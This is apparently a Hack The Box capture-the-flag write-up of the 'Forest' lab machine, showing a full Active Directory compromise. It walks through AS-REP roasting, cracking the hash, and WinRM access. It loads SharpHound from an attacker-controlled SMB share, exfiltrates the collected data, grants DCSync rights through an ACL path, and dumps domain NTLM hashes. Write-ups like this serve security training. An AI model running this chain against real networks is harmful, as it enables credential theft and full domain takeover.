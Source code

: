 ```yaml
---
title: Forest - Hack The Box
excerpt: "Forest is a nice easy box that go over two Active Directory misconfigurations / vulnerabilities: Kerberos Pre-Authentication (disabled) and ACLs misconfiguration. After I retrieve and cracked the hash for the service account I used aclpwn to automate the attack path and give myself DCsync rights to the domain."
date: 2020-03-21
image: /assets/images/htb-writeup-forest/forest_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - ad
  - kerberos
  - bloodhound
  - dcsync
  - aclpwn
---
```


Forest is a nice easy box that go over two Active Directory misconfigurations / vulnerabilities: Kerberos Pre-Authentication (disabled) and ACLs misconfiguration. After I retrieved and cracked the hash for the service account I used aclpwn to automate the attack path and give myself DCsync rights to the domain.

## Summary

- The service account `svc-alfresco` does not require kerberos preauthentication so we can retrieve and crack the hash offline  
- After running Bloodhound on the machine, we find that we have WriteDACL access on the domain
- We can give ourselved DCSync rights, recover the administrator NTLM hash and psexec to get an administrator shell

## Portscan

```
root@kali:~/htb/forest# nmap -p- -T4 10.10.10.161
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-12 15:01 EDT
Nmap scan report for forest.htb (10.10.10.161)
Host is up (0.041s latency).
Not shown: 65512 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49678/tcp open  unknown
49697/tcp open  unknown
```

## Enumerating domain users on the machine

NULL sessions are allowed so we can get a list of users through the RPC client.

The `svc-alfresco` user is probably a service account based on the name.

```
root@kali:~/htb/forest# enum4linux 10.10.10.161
[...]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## Cracking the TGT for the service account

When we query the target domain for users with 'Do not require Kerberos preauthentication' set, we find that `svc-alfresco` is not configured with pre-authentication so its TGT will be returned to us encrypted with its password. Similar to kerberoasting, we can brute force the hash offline.

```
root@kali:~/htb/forest# GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:048f9eeb67ab94be9e4d8fa1da1020[...]6994e733284cc75dc1e3fff447a5d69b064df4fc5967c96b023a5
```

```
root@kali:~/htb/forest# john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2019-10-12 19:52) 0.1481g/s 605297p/s 605297c/s 605297C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We found the credentials for the service account: `svc-alfresco` / `s3rvice`. This service account is allowed to connect to the server with WinRM.

```
root@kali:~/htb/forest# evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\desktop\user.txt
e5e4e47[...]
```

## AD recon with Bloodhound

Using the Bloodhound ingestor, we can collect the data from Active Directory:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> powershell -ep bypass -command "import-module \\10.10.14.7\test\SharpHound.ps1; invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice"
Initializing BloodHound at 5:07 PM on 10/12/2019
Resolved Collection Methods to Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets
Starting Enumeration for htb.local
Status: 123 objects enumerated (+123 123/s --- Using 117 MB RAM )
Finished enumeration for htb.local in 00:00:01.0088043
1 hosts failed ping. 0 hosts timedout.

Compressing data to C:\Users\svc-alfresco\Documents\20191012170734_BloodHound.zip.
You can upload this file directly to the UI.
Finished compressing files!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy 20191012170734_BloodHound.zip \\10.10.14.7\test
```

After transferring the zip file to our Kali VM, we load the data in Bloodhound and check for the shortest path to domain admin. As shown below, the `svc-alfresco` user has `GenericAll` rights on the `Exchange Windows Permissions` group so we can add this user to the group. Next, the `WriteDacl` rights allows us to give DCsync rights to our compromised user and retrieve the NTLM hashes for all users on the domain.

![](/assets/images/htb-writeup-forest/bloodhound1.png)

### Privesc with DCSync

To exploit the ACL path automatically we can use [aclpwn](https://github.com/fox-it/aclpwn.py):

```
root@kali:~/openvpn# aclpwn -f svc-alfresco -ft user -t htb.local -tt domain -d htb.local -dp bloodhound -du neo4j --server 10.10.10.161 -u svc-alfresco -sp s3rvice -p s3rvice
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
Please choose a path [0-1] 0
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user svc-alfresco to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Switching context to svc-alfresco
[+] Done switching context
[-] Modifying domain DACL to give DCSync rights to svc-alfresco
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191013-084938.restore
```

Now that we have the DCsync rights, we can use secretsdump.py to perform DCsync and get all the hashes.

```
root@kali:~/openvpn# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
[...]
[*] Cleaning up...
```

Now that we have the administrator's hash we can use psexec to log in.

![](/assets/images/htb-writeup-forest/root.png)